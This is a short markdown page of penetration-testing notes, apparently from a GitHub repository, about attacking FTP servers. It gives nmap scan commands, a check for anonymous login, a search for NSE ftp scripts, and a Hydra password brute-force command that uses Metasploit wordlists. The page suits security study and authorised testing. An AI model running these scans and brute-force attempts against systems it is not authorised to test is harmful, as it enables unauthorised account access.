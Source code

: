 # Exploiting FTP
> FTP is File Transfer Protocol. FTP is used to facilitate file sharing between a server and its clients. FTP is also frequently used as a means of transferring files to and from the directory of a web server.

FTP Default Port: `21`

## Contents
- [Intro](#intro)
- [Exploit: Brute Force](#exploit-brute-force)
  - [Nmap: Scan the Target](#nmap-scan-the-target)
  - [Connect to the FTP Server](#connect-to-the-ftp-server)
  - [NSE: FTP Scripts](#nse-ftp-scripts)
  - [Hydra: Brute-Force Attack](#hydra-brute-force-attack)
  - [Login](#login)
 
## Intro

- FTP authentication requires a username and password combo.
- Possible Misconfiguration Vulnerability: Anonymous login 
- Most often, unless you find an vulnerable FTP server, you're pretty much left with brute-forcing a password.


## Exploit: Brute Force

### Nmap: Scan the Target
- Start with a scan of the target system:
```
nmap -sS -sV -sC -O -p- [target ip]
# of if you know port 21 is open, scan it only
```

### Connect to the FTP Server
```
ftp [target ip]
```
- When prompted for the username: anonymous
- When prompted for the password: ENTER
- If it fails then anonymous logins are not allowed.

### NSE: FTP Scripts
- Find an nmap script for ftp:
```
ls -l /usr/share/nmap/scripts | grep ftp-*
```
- The `ftp-anon` script will check for anonymous logins. 

### [Hydra](../../hydra.md): Brute-Force Attack
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/.../unix_passwords.txt [ip] -t 4 ftp
```
- `-L` login names to use
- `-P` passwords to use
- `-t` threads, lower to avoid DoSing the target

### Login
- If Hydra gave you some results, try to login to the target system.
